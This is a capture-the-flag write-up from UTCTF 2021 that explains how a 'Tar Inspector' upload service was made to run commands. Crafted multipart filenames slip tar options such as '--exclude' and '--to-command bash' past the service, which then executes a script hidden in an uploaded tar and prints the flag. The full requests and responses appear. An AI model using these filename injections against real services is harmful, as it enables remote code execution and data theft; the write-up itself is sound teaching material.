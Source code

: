 ```yaml
---
layout: post
title:  "Tar Inspector"
tags: ctf
author: f02a8dfe
---
```

My friend linked me this cool site. He said it's super secure so there's no way you could blindly break in.
UTCTF, 13th March 2021

author mattyp provided a link to a file upload form:

{% highlight html %}
<html>
  <head> <link rel="stylesheet" href="/static/styles.css">
    <title>FREE Tar Insepector</title>
  </head>
  <body>
    <div>
      <h1>Tar Inspector!</h1>
      <p>Do you ever have a tar archive, and you want to know what's inside without actually un-tar-ing it?</p>
      <p>Well, now you can with FREE Tar Inspector ®! Just upload a tar and hit submit!</p>
      <form action="/upload" method="POST"
         enctype="multipart/form-data">
         <input type="file" name="file" />
         <input type="submit"/>
      </form>
    </div>
    <div>
    </div>
  </body>
</html>
{% endhighlight %}

`/upload` accepted tar files:

{% highlight http %}
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=---------------------------54694391230115235351812949109
Content-Length: 10470
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------54694391230115235351812949109
Content-Disposition: form-data; name="file"; filename="test09876.tar"
Content-Type: application/x-tar

././@PaxHeader.........................................................
.............................0000000.0000000.0000000.00000000030.00000000000.010206. x...........................................................................
.........................ustar.
-----------------------------54694391230115235351812949109--
{% endhighlight %}

and returned a `Filename` with a list of contents:

{% highlight http %}
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 440
Server: Werkzeug/1.0.1 Python/3.6.9

<html>
  <head> <link rel="stylesheet" href="/static/styles.css">
    <title>FREE Tar Insepector</title>
  </head>
  <body>
    <div>
      <h1>Tar Inspector</h1>
      <p>Here is the directory structure of your tar!</p>
      
      <p>Filename: test09876__672aa4.tar</p>
        <p style="color:gray;text-align:left">
        
          └─ test.txt<br>
        
          <br>
        
        </p>
      
    </div>
  </body>
</html>
{% endhighlight %}

it was possible to inject command line options through the filename parameter:

{% highlight http %}
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=---------------------------106726511336759518402985776037
Content-Length: 239
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------106726511336759518402985776037
Content-Disposition: form-data; name="file"; filename=" --version .tar"
Content-Type: application/octet-stream


-----------------------------106726511336759518402985776037--
{% endhighlight %}

`--version` output:

{% highlight http %}
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 1087
Server: Werkzeug/1.0.1 Python/3.6.9

<html>
  <head> <link rel="stylesheet" href="/static/styles.css">
    <title>FREE Tar Insepector</title>
  </head>
  <body>
    <div>
      <h1>Tar Inspector</h1>
      <p>Here is the directory structure of your tar!</p>
      
      <p>Filename:  --version __31490d.tar</p>
        <p style="color:gray;text-align:left">
        
          ├─ tar (GNU tar) 1.29<br>
        
          ├─ Copyright (C) 2015 Free Software Foundation, Inc.<br>
        
          ├─ License GPLv3+: GNU GPL version 3 or later &lt;http:<br>
        
          │  └─ <br>
        
          │    └─ gnu.org<br>
        
          │      └─ licenses<br>
        
          │        └─ gpl.html&gt;.<br>
        
          ├─ This is free software: you are free to change and redistribute it.<br>
        
          ├─ There is NO WARRANTY, to the extent permitted by law.<br>
        
          ├─ <br>
        
          └─ Written by John Gilmore and Jay Fenlason.<br>
        
          <br>
        
        </p>
      
    </div>
  </body>
</html>
{% endhighlight %}

and retrieve files with `Filename` and `--exclude`:

{% highlight http %}
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=---------------------------95586852121031516363569830765
Content-Length: 260
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------95586852121031516363569830765
Content-Disposition: form-data; name="file"; filename="test09876__672aa4.tar --exclude .tar"
Content-Type: application/octet-stream


-----------------------------95586852121031516363569830765--
{% endhighlight %}

to process previously submitted tar files: 

{% highlight http %}
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 463
Server: Werkzeug/1.0.1 Python/3.6.9

<html>
  <head> <link rel="stylesheet" href="/static/styles.css">
    <title>FREE Tar Insepector</title>
  </head>
  <body>
    <div>
      <h1>Tar Inspector</h1>
      <p>Here is the directory structure of your tar!</p>
      
      <p>Filename: test09876__672aa4.tar --exclude __37aa80.tar</p>
        <p style="color:gray;text-align:left">
        
          └─ test.txt<br>
        
          <br>
        
        </p>
      
    </div>
  </body>
</html>
{% endhighlight %}

by placing a text file with bash commands inside the tar:

{% highlight bash %}
$ cat test.txt           
cat /flag.txt
$ tar -cvf test.tar test.txt
test.txt
{% endhighlight %}

uploading it and retrieving the `Filename` value:

{% highlight http %}
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 469
Server: Werkzeug/1.0.1 Python/3.6.9

<html>
  <head> <link rel="stylesheet" href="/static/styles.css">
    <title>FREE Tar Insepector</title>
  </head>
  <body>
    <div>
      <h1>Tar Inspector</h1>
      <p>Here is the directory structure of your tar!</p>
      
      <p>Filename: test__3f5902.tar</p>
        <p style="color:gray;text-align:left">
        
          └─ .<br>
        
            └─ test.txt<br>
        
          <br>
        
        </p>
      
    </div>
  </body>
</html>
{% endhighlight %}

it was possible to pipe the contents of the text file to bash with `--to-command bash`:

{% highlight http %}
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=---------------------------107249988435935283743027355616
Content-Length: 275
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------107249988435935283743027355616
Content-Disposition: form-data; name="file"; filename="test__3f5902.tar --to-command bash --exclude .tar"
Content-Type: application/octet-stream


-----------------------------107249988435935283743027355616--
{% endhighlight %}

which returned the flag:

{% highlight http %}
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 586
Server: Werkzeug/1.0.1 Python/3.6.9

<html>
  <head> <link rel="stylesheet" href="/static/styles.css">
    <title>FREE Tar Insepector</title>
  </head>
  <body>
    <div>
      <h1>Tar Inspector</h1>
      <p>Here is the directory structure of your tar!</p>
      
      <p>Filename: test__3f5902.tar --to-command bash --exclude __6648bb.tar</p>
        <p style="color:gray;text-align:left">
        
          ├─ .<br>
        
          │  └─ test.txt<br>
        
          └─ utflag{bl1nd_c0mmand_1nj3ct10n?_n1c3_w0rk}<br>
        
          <br>
        
        </p>
      
    </div>
  </body>
</html>
{% endhighlight %}
